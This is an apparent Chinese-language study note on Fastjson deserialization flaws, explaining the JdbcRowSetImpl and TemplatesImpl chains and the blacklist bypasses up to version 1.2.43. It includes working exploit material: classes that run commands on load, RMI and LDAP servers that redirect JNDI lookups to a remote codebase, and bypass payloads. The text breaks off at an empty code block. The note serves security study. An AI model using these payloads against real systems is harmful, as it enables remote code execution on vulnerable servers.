




\# Fastjson 反序列化漏洞原理笔记 #

先放个文章思维导图吧

```modelica
Fastjson 反序列化漏洞
│
├── 核心原理
│   ├── AutoType 默认开启（≤1.2.24）
│   ├── @type 字段加载任意类
│   ├── 反射调用 setter/赋值字段
│   └── 危险类触发 RCE（JdbcRowSetImpl, TemplatesImpl）
│
├── 漏洞利用链
│   ├── JdbcRowSetImpl 利用链
│   │   ├── dataSourceName 触发 JNDI 查找
│   │   └── RMI/LDAP 注入
│   ├── TemplatesImpl 利用链
│   │   └── getOutputProperties() 触发 defineTransletClasses()
│   └── 1.2.47 通杀链
│       ├── java.lang.Class + 缓存机制
│       ├── a 部分：加载恶意类到缓存
│       └── b 部分：从缓存获取，触发 JNDI
│
├── 版本演进与绕过
│   ├── ≤1.2.24：无绕过
│   ├── 1.2.25-1.2.41：L 绕过
│   ├── 1.2.42：LL 绕过
│   ├── 1.2.43：[ 绕过
│   ├── 1.2.44：修复
│   ├── 1.2.45：MyBatis JndiDataSourceFactory
│   └── 1.2.47：通杀链

```


#  一核心原理 

Fastjson 在反序列化时，若开启 AutoType（默认在 ≤1.2.24 开启），会根据 JSON 中的 `@type` 字段加载任意类，并通过反射调用其 setter 方法或直接赋值字段。若该类是 JDK 内部具备副作用的“危险类”（如 `TemplatesImpl`），并在后续被调用 getter 方法，则可能触发远程代码执行（RCE）。

这里需要注意的是

java在处理json字符串时是用toJSONString()进行转换处理的;而toJSONString()实际是通过调用getter来获取对象的属性值的；进而根据这些属性值来生成JSON字符串

在反序列化;会先进行字符串判断 ;判断返回的对象是否为`JSONObject`实例并强转为`JSONObject`类；在**没有指定对象所属的类，Fastjson只是默认将JSON反序列化为了JSONObject**;只有加上@type标识符;

`parse()`先调用@type标识的类的构造函数，然后再调用setter给对象赋值

而parseObject()方法会同时调用setter和getter;虽然parseObject()的底层封装是parse();但这里还多了一个处理json字符串时toJSONString()的调用，将返回值强转为JSON Object；也就是说会调用getter方法

parseObject(payload)，可以看到不指定类时会同时调用get和set方法;


parseObject(payload,Object.class);


parse(payload);


#   二反序列化执行流程（Fastjson 1.2.24） 


1. 

2. | 步骤 | 方法/操作                                 | 作用                                                         |
   | ---- | ----------------------------------------- | ------------------------------------------------------------ |
   | 1    | `JSON.parseObject()`                      | 用户入口                                                     |
   | 2    | `new DefaultJSONParser()` + `JSONScanner` | 词法解析 JSON 文本                                           |
   | 3    | `parseObject()` → 扫描字段名              | 识别是否包含 `"@type"`                                       |
   | 4    | `ParserConfig.checkAutoType(typeName)`    | **加载指定类**（如 `TemplatesImpl`） ⚠️ 旧版本无有效黑名单校验 |
   | 5    | `config.getDeserializer(clazz)`           | 获取反序列化器（通常为 `JavaBeanDeserializer`）              |
   | 6    | `JavaBeanDeserializer.deserialze()`       | 创建实例（通过构造函数或 `Unsafe.allocateInstance()`）遍历其余字段 |
   | 7    | `FieldDeserializer.parseField()`          | **通过反射调用 setter（如 `set_bytecodes`）或直接写字段**    |
   | 8    | 返回对象                                  | 反序列化完成，**但恶意代码尚未执行**                         |


## Fastjson<=1.2.24

我们先来看最开始的漏洞版本是<=1.2.24，在这个版本前是默认支持`@type`这个属性的

这个版本的jastjson有两条利用链——JdbcRowSetImpl和Templateslmpl

### JdbcRowSetImpl利用链

这条链子的最终结果是导致jndi注入;

不了解jndi注入可以去看https://github.com/Y4tacker/JavaSec/blob/main/1.%E5%9F%BA%E7%A1%80%E7%9F%A5%E8%AF%86/JNDI%E6%B3%A8%E5%85%A5/JNDI%E6%B3%A8%E5%85%A5.md

简单来说 jndi就是 **能够让用户通过统一的方式访问获取远程网络上的各种资源和服务**;

java内置的目录服务有

```
RMI: Java Remote Method Invocation，Java 远程方法调用
LDAP: 轻量级目录访问协议
CORBA: Common Object Request Broker Architecture，通用对象请求代理架构，用于 COS 名称服务(Common Object Services)
DNS（域名转换协议）
```

**如果远程访问的对象是一个恶意类就导致远程类加载**

它的逻辑流程是这样的 

通过jndi的命名服务的绑定关系 去目录服务上找到对象的引用(也就是**References**类对象保存的是一个地址);之后通过这个地址去访问远程下载(加载)资源

简单类比 就是 比如你在读书馆要拿一本书 [通过书和编号位置的绑定关系]， 询问读书管理系统(目录服务)查询到了(返回Reference对象)书的编号和位置(Refence对象的codebase地址[远程恶意类的地址])，你去拿书(下载/加载恶意类)

也就是以下流程



因此会有两种路径 

```
1.RMI+JNDI
2.LDAP+JNDI
```

#### 1.RMI+JNDI

RMI很好理解:

就是一个java的特性;它允许一个jvm远程调用另一个jvm上的方法;

以下是通过"rmi远程下载类"的过程图

也就是**服务端会把恶意类的地址绑定到一个RMI Registry上**，**客户端去这个访问这个RMI Registry得到这个地址**;然后去这个地址上下载字节码 然后加载执行static上的内容;**事实上这个逻辑不完全对，因为RMI不具备下载恶意类的功能;**

在逻辑上 服务端会把恶意类的地址绑定Registry端 ;**到客户端与Registry端利用过程中获取到了这个地址** ；**然而却不会去访问下载这个地址;这时候就需要jndi去访问和下载**

;也就是说RMI的作用是作为jndi的“目录节点" 存放着远程恶意类的下载地址;之后通过这个地址下载并加载这个恶意类



ok我们了解了jdni+rmi的流程接下来分析

jdbcRowSetImpl是如何触发jndi的

我们都知道fastjson反序列化在<=1.2.24 存在 会根据 JSON 中的 `@type` 字段加载任意类，并通过**反射调用其 setter 方法**或直接赋值字段

而在jdbcRowSetImpl的源码中存在一个setter ->setDataSourceName 参数name是可控的

源码如下；在执行到这个函数时候 这个代码会触发jndi DataSource ds = (DataSource) ctx.lookup(name);

也就是DataSourceName等于我们的rmi;会触发lookup(rmi://127.0.0.1:1099/hello)；

```java
public void setDataSourceName(String name) {//name=rmi://127.0.0.1:1099/hello
    this.dataSourceName = name;
    // 尝试初始化数据源
    if (name != null && name.startsWith("rmi:")) {
        try {
            // 触发 JNDI 查找
            Context ctx = new InitialContext();//在 Java 中，InitialContext.lookup() 会根据 URL 前缀自动选择相应的服务提供者：java:	JNDI	标准 JNDI 查找 rmi:	RMI	RMI 服务提供者 ldap:	LDAP	LDAP 服务提供者
            DataSource ds = (DataSource) ctx.lookup(name);
            setDataSource(ds);
        } catch (Exception e) {
            // 错误处理
        }
    }
}
```


由于`setAutoCommit`()会调用Connect()方法

autoCommit=true但在代码中的值其实没有使用到

因此autoCommit=false也是可以执行的


至此，我们来看具体exp代码


要加载执行的恶意类

##RMIHello.java

```java
// 文件路径: src/org/example/jdbcRowSetImpl/RMIHello.java
package org.example.jdbcRowSetImpl;

import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

public class RMIHello implements ObjectFactory {
    static {
        // 静态代码块：类加载时执行（常用于弹计算器等）
        try {
            Runtime.getRuntime().exec("calc"); // Windows 弹计算器
            // Runtime.getRuntime().exec(new String[]{"gnome-calculator"}); // Linux
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) {
        // 也可以在这里执行命令
        return null;
    }
}
```

客户端代码

##Fastjson_Jdbc_RMI

```java
package org.example.jdbcRowSetImpl;

import com.alibaba.fastjson.JSON;

public class Fastjson_Jdbc_RMI {
    public static void main(String[] args) {
        String payload = "{\n" +
                "  \"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\n" +
                "  \"dataSourceName\":\"rmi://127.0.0.1:1099/hello\",\n" +
                "  \"autoCommit\":true\n" + //这一步是为了确保jndi能够自动触发
                "}";
        JSON.parse(payload); // 触发 JNDI lookup → 加载 RMIHello → 执行 calc
    }
}
```


服务端代码

##RMI_Server_Reference

```java
package org.example.jdbcRowSetImpl;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMI_Server_Reference {
    void register() throws Exception {
        // 创建 RMI Registry（端口 1099）
        Registry registry = LocateRegistry.createRegistry(1099);

        // 创建 Reference（指向远程类）
        Reference reference = new Reference(
                "org.example.jdbcRowSetImpl.RMIHello",   // 要加载的类全名
                "org.example.jdbcRowSetImpl.RMIHello",   // 工厂类（这里同名，实际应为 ObjectFactory）
                "http://127.0.0.1:8888/"                // codebase（HTTP 服务地址）
        );

        // 包装为 RMI 可注册对象
        ReferenceWrapper refWrapper = new ReferenceWrapper(reference);

        // ✅ 正确：通过 Registry.bind() 绑定
        registry.bind("hello", refWrapper);  // 名字是 "hello"，完整 RMI URL 是 rmi://127.0.0.1:1099/hello

        System.out.println("RMI Registry 启动，绑定 Reference 到 rmi://127.0.0.1:1099/hello");
    }

    public static void main(String[] args) throws Exception {
        new RMI_Server_Reference().register();
    }
}
```

过程图如下




#### 2.LDAP+JNDI

事实上还是由于这条链子

在 Java 中，**InitialContext.lookup() 会根据 URL 前缀自动选择相应的服务提供者：java:	JNDI	标准 JNDI 查找 rmi:	RMI	RMI 服务提供者 ldap:	LDAP	LDAP 服务提供者**

原理是一样的，只是服务提供者从RMI变成了LDAP

```java
public void setDataSourceName(String name) {//name=rmi://127.0.0.1:1099/hello
    this.dataSourceName = name;
    // 尝试初始化数据源
    if (name != null && name.startsWith("rmi:")) {
        try {
            // 触发 JNDI 查找
            Context ctx = new InitialContext();//在 Java 中，InitialContext.lookup() 会根据 URL 前缀自动选择相应的服务提供者：java:	JNDI	标准 JNDI 查找 rmi:	RMI	RMI 服务提供者 ldap:	LDAP	LDAP 服务提供者
            DataSource ds = (DataSource) ctx.lookup(name);
            setDataSource(ds);
        } catch (Exception e) {
            // 错误处理
        }
    }
}
```

这里我们来了解LDAP的原理和机制

这个本身不是java特有的东西;是一种协议

LDAP（Lightweight Directory Access Protocol，轻量级目录访问协议）是一种**用于访问和维护分布式目录信息服务的开放式协议**

它本质上是一种"目录查询协议"，其背后的"目录服务"（如微软Active Directory、OpenLDAP）相当于企业的"数字身份通讯录"，存储着：用户账号（用户名、密码哈希）部门信息设备信息（服务器、终端的IP、MAC地址）权限配置（谁能访问某台服务器、某个应用）

目录结构如下

```mariadb
dc=com
  ├── dc=example
  │    ├── ou=People
  │    │    ├── cn=John Doe
  │    │    └── cn=Jane Smith
  │    └── ou=Groups
  │         └── cn=Admins
  
客户端 → 服务器：建立TCP连接
客户端 → 服务器：发送绑定请求（Bind Request）
服务器 → 客户端：返回绑定成功/失败
客户端 → 服务器：发送查询请求（Search Request）
服务器 → 客户端：返回查询结果
客户端 → 服务器：发送解绑请求（Unbind）
 DN (Distinguished Name)：唯一可区别的名称，记录了一条记录的位置
例如：cn=John Doe,ou=People,dc=example,dc=com
由多个组件组成：CN(通用名称)、OU(组织单元)、DC(域组件)
DC (Domain Component)：域控制器，类似于文件系统目录
例如：dc=com, dc=example
OU (Organizational Unit)：组织单元，类似部门
例如：ou=People, ou=Groups
CN (Common Name)：区分身份的属性，类似名称
例如：cn=John Doe
Schema (模式)：定义条目可以拥有的属性及其数据类型
例如：objectClass定义条目的类别（如person、organizationalUnit）
一个person类型的条目必须包含cn和sn（姓），可选包含mail或telephoneNumb
```

**关键部分是它可以像rmi机制一样绑定一个对象的引用，把对象的地址放到ldap服务器上**;**这样就导致了jndi注入**


工作原理

```makefile
LDAP基于客户端-服务器模型，工作流程如下：

连接：客户端建立与服务器的TCP连接
绑定（Bind）：客户端通过认证获得访问权限
匿名绑定：无需认证
简单认证：明文传输用户名和密码
SASL：加密的绑定方法（如TLS、SSL、Kerberos）
操作：客户端执行查询、添加、修改或删除等操作
解绑（Unbind）：客户端关闭连接
```

EXP如下

RMIHello

```java
// 文件路径: src/org/example/jdbcRowSetImpl/RMIHello.java
package org.example.jdbcRowSetImpl;

import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

public class RMIHello implements ObjectFactory {
    static {
        // 静态代码块：类加载时执行（常用于弹计算器等）
        try {
            Runtime.getRuntime().exec("calc.exe"); // Windows 弹计算器
            // Runtime.getRuntime().exec(new String[]{"gnome-calculator"}); // Linux
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) {
        // 也可以在这里执行命令
        return null;
    }
}
```

客户端代码

Fastjson_Jdbc_LDAP

```java
package org.example.jdbcRowSetImpl;
import com.sun.rowset.JdbcRowSetImpl;
import com.alibaba.fastjson.JSON;

public class Fastjson_Jdbc_LDAP {
    public static void main(String[] args) {
        String payload = "{\n" +
                "  \"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\n" +
                "  \"dataSourceName\":\"ldap://localhost:9999/RMIHello\",\n" +
                "  \"autoCommit\":true\n" +
                "}";
        JSON.parse(payload); // 触发 JNDI lookup → 加载 RMIHello → 执行 calc
    }
}
```

服务端

```java
package org.example.jdbcRowSetImpl;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;

public class LDAP_Server {

    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main ( String[] tmp_args ) {
        String[] args=new String[]{"http://127.0.0.1:8888/#RMIHello"};
        int port = 9999;

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", //$NON-NLS-1$
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ])));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
            ds.startListening();

        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }

        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        protected void sendResult(InMemoryInterceptedSearchResult result, String base, Entry e) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);

            // ✅ 关键修复1：使用全限定类名
            String fullClassName = "org.example.jdbcRowSetImpl.RMIHello";

            e.addAttribute("javaClassName", fullClassName);  // ✅ 修复1
            e.addAttribute("javaFactory", fullClassName);    // ✅ 修复2

            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if (refPos > 0) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference");
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}
```

过程图如下;和rmi实际上是差不多的;不同点在于 rmi服务端会把地址绑定到Registry上 这里是直接 使用ldap服务端保存这个地址



### TemplatesImpl利用链

我们知道fastjson利用链会调用getter和setter方法

而在TemplatesImpl利用链中的入口就是getOutputProperties() （getter方法）

```java
attacker calls -> TemplatesImpl.getOutputProperties() [public]                 
                   -> TemplatesImpl.newTransformer() [public]                         
                      -> TemplatesImpl.getTransletInstance() [private]                              
                         -> TemplatesImpl.defineTransletClasses() [private]                                                            -> (new TransletClassLoader()).defineClass(byte[] b) [default]
```

我们来看这个方法TemplatesImpl#getOutputProperties()


跟进TemplatesImpl#newTransformer


继续跟进getTransletInstance()


跟进defineTransletClasses();


可以看到这个链子最后调用了defineClass方法；我们可以直接用来加载字节码

但这个链子中我们发现存在私有方法和私有属性;我们需要还原就需要这个字段Feature.SupportNonPublicField

Feature.SupportNonPublicField

如果需要还原出private属性的话，还需要在JSON.parseObject/JSON.parse中加上Feature.SupportNonPublicField参数

接下来我们来看看getTransletInstance()这个函数

存在两个判断

```
_name == null  

 _class == null
```

这就需要_name !=null 和 _class==null


继续跟进defineTransletClasses();可以看到_bytecodes值就是我们要传入的字节码


但代码存在一个限制；这个部分会检查是否是AbstractTranslet的子类;不是则异常;

因此恶意类必须是AbstractTranslet的子类


因此我们可以构造

```json
{
\"@type\":
\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\",
\"_outputProperties\":{ },
'_name':'Hello',
'_tfactory':{ },
\"_bytecodes\":[\"base64evilcode\"]
}
```

代码恶意类的代码是 然后进行base64编码即可这是因为fastjson反序列化过程会把字节码数据进行base64解码，所以我们需要对字节码base64加密,这样反序列化就得到正常的字节码了


```java
package org.example.TemplatesImpl;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.lang.reflect.Method;

public class evil extends AbstractTranslet {
    public evil() {
        System.out.println("Constructor: Hello World!");    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers)
            throws TransletException {}
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler)
            throws TransletException {}
    static {
        System.out.println("Static block: Hello World!");
        try {
            Class clazz =  Class.forName("java.lang.Runtime");
            Method method = clazz.getMethod("getRuntime");
            Runtime runtime = (Runtime) method.invoke(clazz);
            runtime.exec("calc.exe");
        }
        catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```


## Fastjson高版本绕过

先放一个框架

| 版本范围      | 利用链                        | 绕过方式                            | 依赖条件            | 修复版本          |
| ------------- | ----------------------------- | ----------------------------------- | ------------------- | ----------------- |
| ≤1.2.24       | JdbcRowSetImpl, TemplatesImpl | 无                                  | 无                  | -                 |
| 1.2.25-1.2.41 | JdbcRowSetImpl                | `Lcom.sun.rowset.JdbcRowSetImpl;`   | 无                  | 1.2.42            |
| 1.2.42        | JdbcRowSetImpl                | `LLcom.sun.rowset.JdbcRowSetImpl;;` | 无                  | 1.2.43            |
| 1.2.43        | JdbcRowSetImpl                | `[com.sun.rowset.JdbcRowSetImpl[{`  | 无                  | 1.2.44            |
| **1.2.44**    | **无**                        | **修复**                            | **无**              | **1.2.45**        |
| 1.2.45        | JndiDataSourceFactory         | 无                                  | MyBatis 3.x.x~3.5.0 | 1.2.46            |
| **1.2.47**    | **java.lang.Class + 缓存**    | **通杀**                            | **无**              | **1.2.62-1.2.67** |

### 12.25-1.2.41

在这个版本中存在黑白名单检查

而1.2.25版本增加了对类的`checkAutoType()`检查，会对要加载的类进行白名单和黑名单限制，并且引入了一个配置参数`AutoTypeSupport`


我们跟进这个函数发现AutoTypeSupport默认值是false,也就是默认开启白名单机制


需要通过服务端使用以下代码手动关闭；这是高版本比较难以绕过的点

ParserConfig.getGlobalInstance().setAutoTypeSupport(true); 

我们这里手动关闭一下

但依旧没有执行我们调试一下发现是由于没有TypeUtils#loadClass调用这个方法导致defaultClassLoader=null


我们再跟进一下TypeUtils#loadClass

关键代码由于传进来的defaultClassLoader=null，因此走不到try那一部分;

但前面的逻辑是可以满足的;因为

第一个if判断类名是否为[开头，是的话 就忽略这个[从这个字符之后的类名加载类;由于fastjson字符串已经被认定是数组了因此走不到这部分（但后续有一条关于[这条路径的链子要求 <=1.2.43）

第二个if判断类名是否为L 开头;结尾 如果是就取这个两个字符中间的类名，也就是L 类名 ;

因此只需要在类名前加个L 类名后加个; 就可以绕过了

构造

```java
 String payload = "{\n" +
                "  \"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\n" +
                "  \"dataSourceName\":\"ldap://localhost:9999/RMIHello\",\n" +
                "  \"autoCommit\":true\n" +
                "}";
```


可以看到jdbcRowSetImpl已经被加载了


代码如下

```java
package org.example.jdbcRowSetImpl;
import com.alibaba.fastjson.parser.ParserConfig;
import com.sun.rowset.JdbcRowSetImpl;
import com.alibaba.fastjson.JSON;

public class Fastjson_Jdbc_LDAP {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "{\n" +
                "  \"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\n" +
                "  \"dataSourceName\":\"ldap://localhost:9999/RMIHello\",\n" +
                "  \"autoCommit\":true\n" +
                "}";
        JSON.parse(payload); // 触发 JNDI lookup → 加载 RMIHello → 执行 calc
    }
}
```

payload执行成功


### 1.2.42

这个版本是对上一个版本的绕过

这个版本下对黑名单进行了hash处理，理论上可以通过hash碰撞的方式知道黑名单内容但常用的类是有限的


我们在checkType中发现了一个过滤的处理逻辑是去掉类名的首尾


我们继续跟进之前的TypeUtils#loadClass

发现逻辑是不变的；这时候我们就可以进行双写绕过;


payload

构造

```json
"{\n" +
 "  \"@type\":\"LLcom.sun.rowset.JdbcRowSetImpl;;\",\n" +
 "  \"dataSourceName\":\"ldap://localhost:9999/RMIHello\",\n" +
"  \"autoCommit\":true\n" +
"}";
```


```java
package org.example.jdbcRowSetImpl;
import com.alibaba.fastjson.parser.ParserConfig;
import com.sun.rowset.JdbcRowSetImpl;
import com.alibaba.fastjson.JSON;

public class Fastjson_Jdbc_LDAP {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "{\n" +
                "  \"@type\":\"LLcom.sun.rowset.JdbcRowSetImpl;;\",\n" +
                "  \"dataSourceName\":\"ldap://localhost:9999/RMIHello\",\n" +
                "  \"autoCommit\":true\n" +
                "}";
        JSON.parse(payload); // 触发 JNDI lookup → 加载 RMIHello → 执行 calc
    }
}
```

payload执行成功


### <=1.2.43版本绕过

这个版本中对于LL开头结尾的类名就直接抛出异常了


但这里没有处理以[开头的类名;

这里仍然可以通过[绕过那个异常处理部分进入到TypeUtils#loadClass


但执行会报错


这表明json解析器在解析时把fastjson字符串当成一个数组进行解析,他希望在,的地方有一个[，但只有,所以报错;我们添加[

构造payload

```json
"{\n" +"  \"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"[,\n" +
 "  \"dataSourceName\":\"ldap://localhost:9999/RMIHello\",\n" +
"  \"autoCommit\":true\n" +
"}";
```

但执行依然报错;

这个表明存在json解析报错

错误信息 `syntax error, expect {, actual string, pos 49` 表示在位置 49 处，FastJSON 期望找到 `{`，但实际找到了字符串内容。

错误信息表明 FastJSON 期望找到 `{`，因此就需要在[后再添加一个{进行绕过


构造payload

```json
"{\n" +"  \"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"[{,\n" +
 "  \"dataSourceName\":\"ldap://localhost:9999/RMIHello\",\n" +
"  \"autoCommit\":true\n" +
"}";
```

payload成功执行


代码

```java
package org.example.jdbcRowSetImpl;
